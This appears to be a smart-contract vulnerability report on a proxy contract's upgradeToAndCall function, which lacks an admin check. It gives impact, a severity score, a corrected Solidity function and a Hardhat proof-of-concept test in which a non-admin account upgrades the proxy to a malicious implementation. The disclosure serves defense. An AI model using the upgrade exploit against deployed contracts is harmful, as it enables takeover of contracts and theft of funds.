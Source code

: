 # Proxy Contract Critical Vulnerability Report

## Bug Description

A critical vulnerability has been identified in the Proxy contract's `upgradeToAndCall` function. This function, which is intended to upgrade the implementation of the proxy contract, fails to properly enforce access control. As a result, any address, not just the designated admin, can call this function and successfully upgrade the contract to an arbitrary implementation.

The vulnerability stems from a failure in the access control check within the `upgradeToAndCall` function. While other admin functions correctly restrict access to the admin address, this particular function allows execution by any caller.

## Impact

The impact of this vulnerability is severe and far-reaching:

1. **Unauthorized Contract Upgrades**: Any malicious actor can upgrade the proxy to point to an arbitrary implementation contract, potentially taking full control of the proxy's functionality and any associated assets.

2. **Theft of Funds**: If the proxy contract controls or has access to funds, an attacker could upgrade to a malicious implementation that transfers these funds to their own address.

3. **Data Manipulation**: An attacker could implement functions that manipulate or erase critical contract data.

4. **Denial of Service**: The contract could be upgraded to a non-functional or deliberately obstructive implementation, rendering the entire system unusable.

5. **Trust Violation**: Users and integrators who trust the proxy contract based on its current implementation could unknowingly interact with a malicious version after an unauthorized upgrade.

## Risk Breakdown

- **Difficulty to Exploit**: Easy
  - The vulnerability requires no special permissions or complex setup to exploit.
  - A simple transaction calling `upgradeToAndCall` with a malicious implementation address is sufficient.

- **Weakness**: Access Control
  - The core issue lies in improper access control implementation for a critical administrative function.

- **Common Weakness Enumeration (CWE)**:
  - CWE-284: Improper Access Control
  - CWE-285: Improper Authorization

- **Remedy Vulnerability Scoring System 1.0 Score**: 9.8 (Critical)
  - Attack Vector (AV): Network (N)
  - Attack Complexity (AC): Low (L)
  - Privileges Required (PR): None (N)
  - User Interaction (UI): None (N)
  - Scope (S): Unchanged (U)
  - Confidentiality Impact (C): High (H)
  - Integrity Impact (I): High (H)
  - Availability Impact (A): High (H)

## Recommendation

To address this critical vulnerability, we recommend the following steps:

1. **Immediate Hotfix**: 
   - Implement proper access control in the `upgradeToAndCall` function to ensure only the admin can call it.
   - Example fix:
     ```solidity
     function upgradeToAndCall(address _implementation, bytes calldata _data) public payable virtual {
         require(msg.sender == _getAdmin(), "Proxy: caller is not admin");
         _upgradeToAndCall(_implementation, _data);
     }
     ```

2. **Comprehensive Audit**: 
   - Conduct a thorough audit of all administrative functions to ensure consistent access control.

3. **Implement Additional Safeguards**:
   - Consider implementing a time-lock mechanism for upgrades.
   - Implement a multi-signature scheme for administrative actions.

4. **Enhance Logging and Transparency**:
   - Add event emissions for all upgrade actions to improve traceability.

5. **Verification Mechanism**:
   - Implement a verification step that checks the integrity and compatibility of new implementation contracts before allowing upgrades.

## References

1. EIPS-1967: Standard Proxy Storage Slots
   https://eips.ethereum.org/EIPS/eip-1967

2. OpenZeppelin: Proxy Upgrade Pattern
   https://docs.openzeppelin.com/upgrades-plugins/1.x/proxies

3. CWE-284: Improper Access Control
   https://cwe.mitre.org/data/definitions/284.html

4. RVSS 1.0: Remedy Vulnerability Scoring System
   https://remedysecurity.com/rvss/

## Proof of Concept

The following steps demonstrate the vulnerability:

1. Deploy the Proxy contract with a legitimate admin address and initial implementation.
2. As a non-admin address, call the `upgradeToAndCall` function with a malicious implementation address.
3. Verify that the upgrade succeeds by checking the new implementation address.

Example PoC code:

```javascript
const { expect } = require("chai");
const { ethers } = require("hardhat");

describe("Proxy Vulnerability", function() {
  let Proxy;
  let proxy;
  let owner;
  let attacker;
  let initialImplementation;
  let maliciousImplementation;

  beforeEach(async function() {
    [owner, attacker] = await ethers.getSigners();
    
    // Deploy initial implementation
    const InitialImplementation = await ethers.getContractFactory("InitialImplementation");
    initialImplementation = await InitialImplementation.deploy();
    
    // Deploy Proxy
    Proxy = await ethers.getContractFactory("Proxy");
    proxy = await Proxy.deploy(owner.address);
    
    // Set initial implementation
    await proxy.connect(owner).upgradeTo(initialImplementation.address);
    
    // Deploy malicious implementation
    const MaliciousImplementation = await ethers.getContractFactory("MaliciousImplementation");
    maliciousImplementation = await MaliciousImplementation.deploy();
  });

  it("Should allow non-admin to upgrade implementation", async function() {
    // Attacker upgrades to malicious implementation
    await proxy.connect(attacker).upgradeToAndCall(maliciousImplementation.address, "0x");
    
    // Check if upgrade was successful
    expect(await proxy.implementation()).to.equal(maliciousImplementation.address);
  });
});
```

This PoC demonstrates that a non-admin address (attacker) can successfully call `upgradeToAndCall` and change the implementation to a potentially malicious contract.
